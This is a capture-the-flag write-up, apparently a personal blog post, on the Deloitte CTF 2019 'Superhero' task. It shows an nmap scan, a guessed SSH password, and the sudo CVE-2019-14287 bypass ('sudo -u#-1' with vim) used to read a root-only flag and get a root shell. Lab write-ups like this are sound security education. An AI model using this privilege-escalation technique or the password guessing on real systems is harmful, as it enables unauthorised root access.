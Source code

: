 ```yaml
---
title: Deloitte CTF Quals 2019: Superhero 🦸
slug: deloitte-superhero
date: 06/11/2019
---
```


*Superhero* 🦸 was a task labelled infrastructure and worth 75 points. It is
a challenge that mostly revolves around [the recent `sudo` CVE](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287).

![Task Description](/assets/superhero/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 3.9.190.45
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:34 GMT
Nmap scan report for ec2-3-9-190-45.eu-west-2.compute.amazonaws.com (3.9.190.45)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  2222/tcp open     EtherNetIP-1
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We notice something unusal: `EtherNetIP-1` on port `2222`. This is a fairly
popular SSH port. Let's try:

```
$ ssh -p2222 geo@3.9.190.45
###############################################################
  Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
geo@3.9.190.45's password:
```

So we know that the user is `bruce`. From the name of the challenge, we can
imagine that it is a reference to Bruce Wayne, the real name of Batman! So
let's try `batman` as password:

```
$ ssh -p2222 bruce@3.9.190.45
###############################################################
    Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
bruce@3.9.190.45's password:
bruce@eb2037c7a5a1:~$
```

Well, I guess that even a superhero might not be aware of the best practices
when it comes to passwords...

From there, we locate the `flag.txt` file, but we can't read it.

```
bruce@eb2037c7a5a1:~$ ls -al /
total 84
[...]
--w-------   1 root root   20 Oct 23 13:56 flag.txt
[...]
bruce@eb2037c7a5a1:~$
```

We need to get root permissions. Let's see if we can use `sudo`:

```
bruce@eb2037c7a5a1:/$ cat /etc/sudoers
bruce ALL = (ALL, !root) /usr/bin/vim
bruce@eb2037c7a5a1:/$
```

We can run `/usr/bin/vim`, but not as `root`:

```
bruce@eb2037c7a5a1:/$ sudo /usr/bin/vim /flag.txt
Sorry, user bruce is not allowed to execute '/usr/bin/vim /flag.txt' as root on eb2037c7a5a1.
bruce@eb2037c7a5a1:/$
```

At this point, one of my teammates told me that the recent sudo vulnerability
should work. I gave it a try:

```
bruce@eb2037c7a5a1:/$ sudo -u#-1 /usr/bin/vim /flag.txt
```

It worked! We got our flag! We can even use the `:terminal` command in Vim
and enjoy a root shell.

![Task Description](/assets/superhero/root.png)

For the record, the other `sudo` payload also worked:

```
bruce@eb2037c7a5a1:/$ sudo -u#4294967295 /usr/bin/vim /flag.txt
```
